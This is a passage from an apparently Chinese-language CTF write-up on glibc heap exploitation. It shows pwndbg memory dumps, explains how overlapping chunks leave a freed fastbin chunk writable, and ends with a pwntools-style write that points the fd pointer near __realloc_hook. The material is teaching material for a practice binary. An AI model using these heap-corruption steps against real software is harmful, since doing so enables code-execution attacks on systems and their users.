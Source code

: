 ```python
all: 0x0
smallbins
empty
largebins
empty
pwndbg>
```

现在index2已经加入到了fastbin中，但是由于堆块发生了重叠，index2指向的内存区域仍然是可读写的。

+ index2：free
+ index5：malloc

```python
pwndbg> x/30gx 0x555555756000
0x555555756000:	0x0000000000000000	0x0000555555756008
0x555555756010:	0x0000000000000000	0x0000000000000000
0x555555756020 <stdout>:	0x00007ffff7dd2620	0x0000000000000000
0x555555756030 <stdin>:	0x00007ffff7dd18e0	0x0000000000000000
0x555555756040:	0x0000001800000001	0x0000555555757010 
0x555555756050:	0x0000006800000001	0x0000555555757030
0x555555756060:	0x0000000000000000	0x0000000000000000 #index2（free）
0x555555756070:	0x0000006800000001	0x0000555555757110
0x555555756080:	0x0000006800000001	0x0000555555757180
0x555555756090:	0x0000006000000001	0x00005555557570a0 #index5（malloc）
0x5555557560a0:	0x0000000000000000	0x0000000000000000
0x5555557560b0:	0x0000000000000000	0x0000000000000000
0x5555557560c0:	0x0000000000000000	0x0000000000000000
0x5555557560d0:	0x0000000000000000	0x0000000000000000
0x5555557560e0:	0x0000000000000000	0x0000000000000000
pwndbg>
```

> 来理清一下思路：
>
> 我们将处于unsortedbin中的index2申请了回来（表面上是处于bin中，但实际上是处于malloc状态），现在申请那片内存区域命名为index5，换句话来说现在那片内存区域有两个名字：“index2”和“index5”，正是由于之前使用chunk chunk Extend/Overlapping导致了这种情况（堆块重叠）的发生；当我们将index2 free掉时，但是index为5的chunk并没有free，并且index2和index5指向同一片内存区域，**<font style="color:#F5222D;">所以free掉之后的那片内存区域仍然可写。</font>****<font style="color:#F5222D;">（仔细理解一下，可能有点绕）</font>**
>

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610885482101-7519aa40-1660-4464-9d43-8f41c51c4367.png)

> **<font style="color:#F5222D;">释放时chunk标志位置0</font>**
>

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610885353432-a4523306-aaf0-4d96-ab3e-dafecae20fe8.png)

> **<font style="color:#F5222D;">写入堆内存时判断标志位是否为1</font>**
>

**<font style="color:#F5222D;">好了，现在我们知道那片内存可写，并且处于fastbin中，现在可以修改fd指针了。</font>**

```python
write(5, 0x60, p64(realloc_hook_addr-0x1b)+'b'*0x58)
```
